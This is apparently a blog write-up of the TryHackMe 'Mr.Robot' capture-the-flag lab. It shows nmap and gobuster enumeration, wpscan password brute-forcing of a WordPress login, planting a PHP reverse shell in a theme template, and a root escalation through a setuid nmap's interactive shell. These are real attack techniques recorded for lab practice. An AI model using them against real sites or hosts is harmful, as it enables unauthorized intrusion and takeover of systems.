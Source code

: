 ```yaml
---
title: TryHackMe - Mr.Robot write up
date: 2020-01-07 22:19:00 +0100
categories: [TryHackMe]
tags: [TryHackMe, wordpress]
render_with_liquid: false
---
```


![mr.robot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/mr_robot.jpg)

### about the machine

this is a medium rated box from [tryhackme](https://tryhackme.com), thought a little too easy if you asked me

### Reconnaissance

I added the box ip to my hosts file then a ran a quick nmap scan
```bash
# Nmap 7.91 scan initiated Wed Jan  6 22:39:07 2021 as: nmap -v -oN ports ctf.thm
Nmap scan report for ctf.thm (10.10.15.148)
Host is up (0.37s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan  6 22:39:26 2021 -- 1 IP address (1 host up) scanned in 19.88 seconds

```

### http enumeration

I visited both the `http` and the `https` and they seemed to have the same page, which is an interactive command line with couple defined commands, non of them were useful though
![command line](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/command_line.png)

visiting `robots.txt` I got the following result
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first flag and what appreared to be very big a wordlist full of duplicated words

```bash
$ wget ctf.thm/fsocity.dic
--2021-01-06 22:56:37--  http://ctf.thm/fsocity.dic
Resolving ctf.thm (ctf.thm)... 10.10.28.187
Connecting to ctf.thm (ctf.thm)|10.10.28.187|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’
858160 fsocity.dic

fsocity.dic         100%[================>]   6.91M   436KB/s    in 17s     

2021-01-06 22:57:01 (405 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
$ wc -l fsocity.dic
858160 fsocity.dic
$ cat fsocity.dic | sort -u > small.dict
$ wc -l small.dict
11451 small.dict
```

then I've ran some http files brutforce. turned out is website is running wordpress

```bash
$ ngobuster dir -u ctf.thm -w $RAFT -t 30 -o robot.raft
/license.txt (Status: 200)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/wp-register.php (Status: 301)
/index.html (Status: 200)
```

I tried getting enumerating the users by visiting `ctf.thm/?author=id` but it didn't work, then I browsed to `wp-login.php` and since I this is a mr.robot themed box I tried the user name `elliot` and bingo, the user existed (if anyone knows another method for getting a user without guessing please let me know)

![found user elleiot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/found_user.png)

I've tried bruteforcing the password using the wordlist I got earlier and I've got some creds

```bash
$ echo elliot > user.txt
$ wpscan --url ctf.thm -U user.txt -P small.dict
...
[!] Performing password attack on Xmlrpc Multicall against 1 user/s
[!] Valid Combinations Found:
 | Username: elliot, Password: REDACTED_PASSWORD
```
# aaand I'm in
![logged in](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/wp_loged_in.png)


from here, first thing I've done is browsing to `appearance -> editor` and I've edited the `404.php` template to include a php reverse shell I got from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![malicious 404.php](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/malicious_404.png)


then I browsed to `ctf.thm/jeff`, got a reverse connection, stabilized it then I began searching for the second flag

```bash
daemon@linux:~$ whoami
daemon
daemon@linux:~$ ls /home/
robot
daemon@linux:~$ cd /home/robot/
daemon@linux:/home/robot$ ls -lh
total 8.0K
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$
```

I found an md5-hashed `robot`'s creds, I got the original password by just copy/pasting the hash into google then I got the flag

### gaining root prileveges

the box had a really old version of `nmap` with a setuid bit set, old versions of nmap support the `--interactive` options, which lets you execute shell commands from an `nmap` prompts

```bash
daemon@linux:/home/robot$ find / -perm -u=s 2>/dev/null 
...
/usr/local/bin/nmap
...
^C
daemon@linux:/home/robot$ /usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# ls -lh
total 4.0K
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
bash-4.3# touch key-3-of-3.txt
bash-4.3# 
```
